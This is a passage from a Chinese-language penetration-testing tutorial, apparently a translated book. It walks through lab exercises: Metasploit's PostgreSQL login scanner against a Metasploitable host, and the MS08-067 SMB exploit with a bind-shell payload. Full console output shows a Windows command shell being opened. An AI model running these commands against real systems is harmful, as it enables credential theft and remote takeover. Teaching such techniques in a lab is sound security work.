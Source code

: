 我们可以利用 Metasploit 辅助扫描程序来确定有关数据库的登录信息。首先，我们通过键入以下内容配置 Metasploit 以利用扫描仪：

```
 msf> use auxiliary/scanner/postgres/postgres_login
```

接下来，我们要配置其中两个选项。第一个选项将扫描仪设置为继续扫描，即使它发现成功登录。这允许我们扫描大量数据库实例，并枚举许多用户名和密码。我们通过键入以下内容来配置：

```
 msf> set STOP_ON_SUCCESS true 
```

其次，我们设置要扫描的主机。扫描仪将采用 CIDR 范围或单个 IP 地址。在本例中，我们将把扫描器指向位于`192.168.0.30`的 Metasploitable OS，因为我们在检查 Nmap 扫描时确定，该 IP 地址上有一个活动实例。我们通过键入以下内容进行设置：

```
 msf> set RHOSTS 192.168.0.30
```

然后我们运行这个漏洞。检查输出时，我们可以看到该数据库的用户名和密码：

![](img/53efbb30-f0b7-4273-921e-3fcf0f6b65c4.png)

数据库安全对于组织来说至关重要，因为数据库通常包含机密信息。诸如 PostgreSQL 之类的扫描程序使我们能够以高效的方式测试组织中皇冠宝石周围的安全性。

# 情景 3

现在，我们将探讨一些常见有效负载（绑定、反向和 MeterMeter）的使用，并从开发角度讨论它们的功能。本练习将让您了解如何以及何时使用特定负载。

# 绑壳

绑定外壳程序是一种远程外壳程序连接，通过设置绑定端口侦听器，在成功利用和执行外壳程序代码时提供对目标系统的访问。这会打开一个网关，让攻击者使用 Netcat 等工具连接回绑定外壳端口上的受损机器，该工具可以通过 TCP 连接对标准输入（`stdin`和输出（`stdout`进行隧道传输。此场景的工作方式与 Telnet 客户端建立到 Telnet 服务器的连接的方式类似，并且适用于攻击者位于**网络地址转换**（**NAT**）或防火墙后面的环境，并且不可能从受损主机直接联系到攻击者 IP。

以下是开始利用和设置绑定 shell 的命令：

```
 msf> use exploit/windows/smb/ms08_067_netapi
    msf exploit(ms08_067_netapi) > show options
    msf exploit(ms08_067_netapi) > set RHOST 192.168.0.7
    RHOST => 192.168.0.7
    msf exploit(ms08_067_netapi) > set PAYLOAD windows/shell/bind_tcp
    PAYLOAD => windows/shell/bind_tcp
    msf exploit(ms08_067_netapi) > exploit

    [*] Started bind handler
    [*] Automatically detecting the target...
    [*] Fingerprint: Windows XP Service Pack 2 - lang:English
    [*] Selected Target: Windows XP SP2 English (NX)
    [*] Attempting to trigger the vulnerability...
    [*] Sending stage (240 bytes) to 192.168.0.7
    [*] Command shell session 1 opened (192.168.0.3:41289 ->
192.168.0.7:4444) at Sat Nov 13 19:01:23 +0000 2010
    Microsoft Windows XP [Version 5.1.2600]
    (C) Copyright 1985-2001 Microsoft Corp.

    C:WINDOWSsystem32> 
```